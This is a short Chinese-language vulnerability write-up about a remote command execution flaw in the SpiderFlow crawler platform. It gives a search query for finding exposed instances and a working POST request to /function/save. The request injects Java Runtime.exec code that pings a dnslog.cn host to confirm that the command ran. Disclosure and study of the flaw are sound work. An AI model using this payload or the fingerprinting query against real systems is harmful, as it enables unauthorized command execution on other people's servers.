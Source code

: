 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬⾍,是⼀个⾼度灵活可配置的爬⾍平台 

官⽹：https://www.spiderflow.org/

## 漏洞影响

<a-checkbox checked>SpiderFlow</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="SpiderFlow"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1640438666683-12d29712-e90c-483b-b311-9fd25f852ca4.png)

发送请求包执行命令

```go
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1640438711420-73f701ff-c390-4201-96df-1e62cdf44208.png)